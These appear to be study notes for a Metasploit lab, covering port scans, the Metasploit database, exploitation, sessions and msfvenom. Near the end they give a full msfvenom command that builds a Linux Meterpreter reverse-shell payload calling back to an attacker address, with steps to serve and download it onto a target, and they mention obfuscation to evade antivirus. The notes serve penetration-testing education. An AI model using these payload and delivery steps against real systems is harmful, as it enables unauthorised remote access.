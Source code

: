 
# Tasks

- [ ] How to scan target systems using Metasploit.
- [ ] How to use the Metasploit database feature.
- [ ] How to use Metasploit to conduct a vulnerability scan.
- [ ] How to use Metasploit exploit vulnerable services on target systems.
- [ ] How `msfvenom` can be used to create payloads and obtain a Meterpreter session on the target system.

## Scanning

### Port Scanning

Metasploit has many modules to scan open ports on the target system and network.

- List potential port scanning modules available using `search portscan` command.

Options:

- **CONCURRENCY**
: Number of targets to be scanned simultaneously.

- **PORTS**
: Port range to be scanned. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.

- **RHOSTS**
: Target or target network to be scanned.

- **THREADS**
: Number of threads that will be used simultaneously. More threads = faster scans.

#### UDP Service Identification

`scanner/discovery/udp_sweep` module will allow to quickly identify services running over the UDP (User Data Protocol).

#### SMB Scans

On a corporate network, `smb_enumshares` and `smb_version` to identify specific services on system.

Metasploit has many modules that can help you have a better understanding of the target system and possibly help you find vulnerabilities. It is always worth performing a quick search to see if there are any modules that could be helpful based on your target system. 

[+] 10.10.192.91:         - 10.10.192.91:22 - TCP OPEN
[+] 10.10.192.91:         - 10.10.192.91:21 - TCP OPEN
[+] 10.10.192.91:         - 10.10.192.91:139 - TCP OPEN
[+] 10.10.192.91:         - 10.10.192.91:445 - TCP OPEN
[+] 10.10.192.91:         - 10.10.192.91:8000 - TCP OPEN
[*] 10.10.192.91:         - Scanned 1 of 1 hosts (100% complete)

## The Metasploit Database

Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values.

### Starting Postgresql and `msfconsole` Database

You will first need to start the PostgreSQL database, which Metasploit will use with the following command: 

`systemctl start postgresql`

Then initialize Metasploit Database using the `msfdb init` command and `db_status` to check the status after launching msfconsole.

### Listing Workspaces

The database feature allows to create workspaces to isolate different projects. List available workspaces using the `workspace` command.

- Can add a workspace using the `-a` parameter or delete a workspace with `-d` parameter.

### Changing Workspaces

- Switch between workspaces by typing `workspace` followed by the desired workspace name.

#### Workspace Help

- Use `workspace -h` command to list available options for the `workspace` command.

#### Database Backend Commands

- Once Metasploit is launched with a database, the `help` command will show the Database Backends Commands menu.

#### db_nmap Command

- Running Nmap scan with `db_nmap` will save the results to the database.

#### Hosts and Services

- Can reach information relevant to hosts and services running on target systems with the `hosts` and `services` commands.

Once the host information is stored in the database, you can use the `hosts -R` command to add this value to the RHOSTS parameter.

### Vulnerability Scanning

Metasploit allows to quickly identify some critical vulnerabilities that could be considered as "low hanging fruit". Usually refers to easily identifiable and exploitable vulnerabilities that could potentially allow access.

`info` command for any module to have a better understanding of its use and purpose.

### Exploitation

Metasploit is an exploitation framework and exploits are the most populated module category.

- Search for exploits using the `search` command.
- Obtain more information about the exploit using the `info` command.
- Launch the exploit using `exploit`.

The process seems simple but a successful outcome depends on a thorough understanding of services running on a target system.

#### Available Payloads

Most of the exploits have a preset default payload.

- Can always use the `show payloads` command to list other commands for that specific exploit.
- Use `set payload` command to select payload of choice.

#### Background

Once a session is opened, `CTRL+Z` to background or abort it using `CTRL+C`.

#### Working with Sessions

The `sessions` command will list all active sessions.

- Interact with any existing session using the `sessions -i` command followed by the session ID.

## Msfvenom

Replaces Msfpayload and Msfencode to generate payloads.

- Msfvenom will allow to access all payloads in the Metasploit framework.
- Msfvenom allows to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

### Output Formats

- Can generate stand-alone payloads or get a usable raw format with `msfvenom --list formats`.

### Encoders

Encoders do not aim to bypass antivirus installed on the target system. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shell code is better solution to the problem.

- Usage of encoding with `-e` parameter.

### Handlers

Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.

- The term commonly used to receive a connection from a target is "catching a shell". Reverse shells or Meterpreter callbacks generated in the MSFvenom payload can be easily caught using a handler.
- Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells.
- Multi Handler to receive the incoming connections with `use exploit/multi/handler` command.

#### Other Payloads

Linux Executable and Linkable Format (elf)
`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.13.40.171 LPORT=4444 -f elf > rev_shell.elf`

Transfer to the target machine by starting a Python web serer on attacking machine with `python3 -m http.server 9000` command. Then use wget to download it to the target machine (Linux)

## Summary

- Database feature can help with penetration testing with multiple targets.
- Creation of stand-alone Meterpreter payloads.
  - Helpful in situations where we can upload a file to the target system or have the ability to download files to the target system.
- Meterpreter is a powerful tool that offers a lot of features during the post-exploitation phase.